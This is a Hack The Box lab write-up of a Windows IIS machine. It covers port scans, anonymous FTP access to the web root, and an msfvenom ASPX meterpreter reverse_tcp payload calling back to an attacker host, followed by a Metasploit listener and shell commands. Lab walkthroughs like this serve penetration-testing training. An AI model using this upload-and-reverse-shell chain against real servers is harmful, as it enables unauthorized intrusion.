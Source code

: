 # Nmap
```CSS
▶ nmap -Pn -sS -p- -T4 --min-rate 5000 10.10.10.5 -oN surface.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:28 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT   STATE SERVICE
21/tcp open  ftp
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 26.62 seconds
```
```CSS
▶ nmap -sC -sV -p 21,80 --min-rate 5000 10.10.10.5 -oN deep.scan

Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-07 15:31 IST
Nmap scan report for 10.10.10.5
Host is up (0.26s latency).
PORT   STATE SERVICE VERSION
21/tcp open  ftp     Microsoft ftpd
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| 03-18-17  02:06AM       <DIR>          aspnet_client
| 03-17-17  05:37PM                  689 iisstart.htm
|_03-17-17  05:37PM               184946 welcome.png
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp open  http    Microsoft IIS httpd 7.5
|_http-title: IIS7
|_http-server-header: Microsoft-IIS/7.5
| http-methods: 
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 15.37 seconds
```

# FTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/d7c41409-5936-4da5-8464-17f3d93385d2)

# HTTP
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/1b24c617-3c50-4c19-a2c6-4993b136cba5)

# Foothold
- Observe that the FTP server is in the same route as the HTTP server. Which means there stands a chance if file uploads are allowed a file is uploaded via FTP and it can be then accessed directly using the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/a94a4267-2326-4851-9cae-7da69ae1da6e)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/43ce2b5e-170d-40e1-96b9-26541fa165ee)

- Create a text file with any random name and upload it. Then access the uploaded file in the browser.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/db8bd9ae-4356-43c7-ad3d-2501ebb011a1)
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/3c67d341-5538-410c-aa80-6caa588743c0)

## MSFVenom
  - Generate a payload using `MSFVenom` for a reverse tcp connection to get a shell.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/5e2d416c-4b86-4d87-9f23-d93e4c483f56)
```CSS
▶ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.54 LPORT=4444 -f aspx -o rsp.aspx
```

 - Upload payload.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/6b8466f5-48f7-4b75-a897-3dd71973f57d)

- Start listener.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/f744751a-a08f-427f-8c4b-aac2ece65d46)
```CSS
▶ sudo msfdb run
▶ use exploit/multi/handler
▶ set payload windows/meterpreter/reverse_tcp
▶ set LHOST tun0
▶ set LPORT 4444
▶ run
```
  - View `sysinfo`.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/c64fc822-539f-4fb3-9e1e-8e06a0500bfa)
```CSS
meterpreter> sysinfo
```

- Get a upgraded shell and view system information.
![image](https://github.com/karanshergill/Hack-the-Box/assets/83878909/cd643c8f-22be-4c47-ae52-263d0ac6520d)
```CSS
meterpreter> shell
c:\windows\system32\inetsrv>systeminfo
```
